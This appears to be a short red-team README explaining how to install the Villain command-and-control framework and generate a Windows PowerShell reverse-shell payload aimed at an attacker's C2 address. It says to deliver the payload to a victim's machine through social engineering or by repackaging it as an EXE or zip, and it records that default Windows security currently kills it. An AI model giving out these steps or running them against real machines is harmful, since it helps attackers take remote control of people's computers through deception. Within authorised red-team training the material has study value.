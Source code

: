 # Villain

## Clone the Repository

```bash
git clone https://github.com/keralahacker/Villain
cd ./Villain
pip3 install -r requirements.txt
```
## Generate Payload

To generate a payload, use the following command:
```bash
generate os=windows lhost=IP
```
- IP Address: The IP address can be the C2 IP or a port forwarding HOST-IP.

![alt text](https://raw.githubusercontent.com/vaishnavucv/Project-winEvasion-Redteam/main/Resource/Villain-ps.png)

### above screenshot explanation
1. Using Python3, run Villain.py.
2. To generate a PowerShell payload, use "generate os=windows lhost=IP".
3. Once the payload is generated, copy it or use social engineering techniques to transfer the code to the victim's machine.
4. When the Villain PowerShell script is executed on the victim's Windows 10/11 machine, the default Windows security measures will isolate the process and terminate the payload from running further.

### Payload Details

- Once the payload is generated, it will be in PowerShell format. The attacker can use social engineering techniques to convert the PowerShell script from Villain to an EXE or zip file for executing the payload.

### Testing the Payload

- For testing the payload, use a Windows 10/11 VM with the latest security patches installed.

